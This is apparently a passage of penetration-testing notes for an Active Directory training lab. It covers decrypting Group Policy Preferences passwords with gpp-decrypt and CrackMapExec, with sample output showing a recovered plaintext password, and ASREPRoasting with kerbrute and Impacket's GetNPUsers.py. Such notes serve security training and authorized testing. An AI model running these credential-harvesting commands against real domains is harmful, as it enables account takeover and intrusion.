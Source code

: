 ```bash
gpp-decrypt VPe/o9YRyz2cksnYRbNeQj35w9KxQ5ttbvtRaAVqxaE
```

Locating & Retrieving GPP Passwords with CrackMapExec

```shell-session
crackmapexec smb -L $ip | grep gpp
```

To access the GPP information and decrypt its stored password using CrackMapExec, we can use 2 modules — `**gpp_password**` and `**gpp_autologin**` modules. The `**gpp_password**` decrypts passwords stored in the Group.xml file, while `**gpp_autologin**` retrieves autologin information from the Registry.xml file in the preferences folder.


```bash
crackmapexec smb $domainControllerIP -u $user -p $password -M gpp_autologin
# Example:
# crackmapexec smb 172.16.5.5 -u forend -p Klmcargo2 -M gpp_autologin
```

Results:
```
GPP_AUTO... 172.16.5.5      445    ACADEMY-EA-DC01  Usernames: ['guarddesk']
GPP_AUTO... 172.16.5.5      445    ACADEMY-EA-DC01  Domains: ['INLANEFREIGHT.LOCAL']
GPP_AUTO... 172.16.5.5      445    ACADEMY-EA-DC01  Passwords: ['ILFreightguardadmin!']
```

### 💡 ASREPRoasting

It's possible to obtain the Ticket Granting Ticket (TGT) for any account that has the Do not require Kerberos pre-authentication setting enabled. 

ASREPRoasting is similar to Kerberoasting, but it involves attacking the AS-REP instead of the TGS-REP. An SPN is not required. This setting can be enumerated with PowerView or built-in tools such as the PowerShell AD module.

#### DONT_REQ_PREAUTH Value using kerbrute

```shell-session
kerbrute userenum -d inlanefreight.local --dc 172.16.5.5 /opt/jsmith.txt 
```

However, this will be as accurate as the user list.


####  Get-NPUsers.py from the Impacket toolkit

```bash
# Retuns all users that with DONT_REQ_PREAUTH and UF_DONT_REQ_PREAUTH
GetNPUsers.py INLANEFREIGHT.LOCAL/ -dc-ip 172.16.5.5 -no-pass -usersfile jsmith.txt | grep -v SessionError
```


## 5. Shares

